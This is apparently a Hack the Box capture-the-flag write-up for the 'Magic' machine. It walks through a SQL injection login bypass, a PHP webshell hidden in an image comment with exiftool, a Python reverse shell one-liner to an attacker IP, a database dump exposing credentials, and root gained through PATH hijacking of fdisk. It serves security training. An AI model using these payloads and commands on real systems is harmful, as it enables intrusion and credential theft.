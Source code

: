 +++
author = "Nick"
categories = ["hack the box", "CTF", "medium", "Linux", "sqli", "SQL Injection", "gobuster", "image bypass", "exiftool", "reverse shell", "su", "sysinfo"]
date = 2020-08-22T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/05/info-2.png"
slug = "hack-the-box-magic"
summary = "Today we are doing the Hack the Box machine Magic."
tags = ["hack the box", "CTF", "medium", "Linux", "sqli", "SQL Injection", "gobuster", "image bypass", "exiftool", "reverse shell", "su", "sysinfo"]
title = "Hack the Box - Magic"

+++


Welcome back! Today we are doing the Hack the Box machine Magic. Magic is listed as a Medium Linux machine. Let's jump in!

Like every box we do on this blog, we start with our `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.185`

Here are our results:
```
Nmap scan report for 10.10.10.185
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.14 seconds
```

We don't have much of a choice. It looks like we are going to head over to the web service being hosted to see how to get a foothold. Before we do, we'll start a `gobuster` scan to see what it might find.

Command:
`gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php`

We know immediately from checking the source there is some driectory structures under images as well as a `login.php` page. Here are our `gobuster` results.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-42.png" >}}

Nothing really useful. So we'll take a peek at the login page. The first thing we try are some basic credentials like admin/admin, magic/magic ect, but none work. We have a few options, we can try to bruteforce our way in with `hydra` or `burpsuite` or we can see if the fields are vulnerable to `sql injections`. So we fire off `sqlmap` against the url. While that runs we test manually as well.

When we try to login as admin and a password of `'` it doesn't give us any error back as normal. So useing this we craft a standard SQL payload:

Payload
`'or''='`

This redirects us to the `upload.php` page.Turn outs that `sqlmap` also found the field injectable.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-43.png" >}}

{{< figure src="__GHOST_URL__/content/images/2020/05/magic_sql.gif" >}}

Now that we are given an option to upload, we can try and upload something a bit more useful, like maybe a webshell of some type. When we try we are given an error about our file type.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-44.png" >}}

When we rename our shell to `shell.php.jpg`, we get another error.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-45.png" >}}

[This seems familiar](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf). It could be checking `mime` type here. There are a few ways to bypass this. This is a [nice quick reference page](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass). In this case we'll use the third method of using exiftool to add a comment. 

First we need a base image, I used the image of the minions on the index page from the box itself. Next we need to install `exiftool` since it's not installed by default.

Command:
`apt install exiftool -y`

Once installed we use the commands given before to create our code.

Command:
`exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' con.jpg`
`mv con.jpg con.php.jpg`

Now we upload the file.

{{< figure src="__GHOST_URL__/content/images/2020/05/magic_upload.gif" >}}

Once the file is uploaded we navigate to `/images/uploads/` and see if `con.php.jpg` is there.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-46.png" >}}

It is indeed there. Now we can leverage the shell we imbeded into the image!

{{< figure src="__GHOST_URL__/content/images/2020/05/image-47.png" >}}

This basic shell helps with enumeration but is lacking in functionality. I want to read that db.php5 file but in order to do so we'll need to repeat the process with a better shell, in this case we'll use [Winter Wolf's](https://github.com/WhiteWinterWolf/wwwolf-php-webshell#wwwolfs-php-web-shell) shell. After we repeat the process we are able to read the file and get a password!

{{< figure src="__GHOST_URL__/content/images/2020/05/image-48.png" >}}

Unfortunately this password is not the same as the users `SSH` password. It is however an `SQL database` password. We'll need to create a reverse shell to dump this via `mysqldump`. I was able to get a shell [via python](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

Command:
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.50",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Once we issue the command via our shell, our listener starts up!

{{< figure src="__GHOST_URL__/content/images/2020/05/magic_reverseshell.gif" >}}

We then [stabilize our shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) so we can dump the database. 

Command:
`mysqldump -u theseus -piamkingtheseus --all-databases > dumpme.sql`

As we parse through the dump, we see some more credentials:

{{< figure src="__GHOST_URL__/content/images/2020/05/image-49.png" >}}

We are still unable to use that password for `SSH` due to how `SSH` has been configured. We can however try to `su` to another user and hope one of the two passwords work.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-50.png" >}}

We got in! We snag the user.txt flag. Now that we're inside the box, we can start enumerating interally. We'll copy of `linpeas` and take a look at there is on the system. As we sift through the information given, we see some interesting items. In particular our ability to use sysinfo:

{{< figure src="__GHOST_URL__/content/images/2020/05/image-51.png" >}}

This looks like a pretty potent path to root, I'm just not sure how. Some googling around didn't really give me anything great. So I copy over `pspy32` and start monitoring processes. When I run `sysinfo` with `pspy` running I see the commands it's actually calling to the system. You could also see this if you `strings` the binary.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-53.png" >}}

Now that we know it's calling `fdisk` and in what order we'll create our own `fdisk` that has a reverse shell inside. So we create a new directory in `/tmp` called `tmp3`. Now inside this directory we create a file called `fdisk`. Now change the file permissions to `755`. Inside this file, we'll put the same `python` reverse shell we had from before just on a different port. You can either make the file on your local attackin machine or create it on the target machine. Here are the commands so far:

Commands:
`mkdir /tmp/tmp3`
`vi fdisk`
`chmod +x fdisk`

Now that we have those in place, we need to append a new location to our [PATH variables](https://linuxize.com/post/how-to-set-and-list-environment-variables-in-linux/). We know from before it is this:

{{< figure src="__GHOST_URL__/content/images/2020/05/image-54.png" >}}

We also know that the PATH is parsed in order. So we want to add `/tmp/tmp3` to the front of that variables list, like this:

Command:
`export PATH=/tmp/tmp3:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
<l/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

This way, `sysinfo` will look in our `/tmp/tmp3` location for fdisk BEFORE all other locations.

Now we'll spin up our `netcat` listener on our chosen port.

With all the parts in place, we call `sysinfo`.

{{< figure src="__GHOST_URL__/content/images/2020/05/magic_root.gif" >}}

There we have it, a root shell! We snag the root.txt flag. Box completed!

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



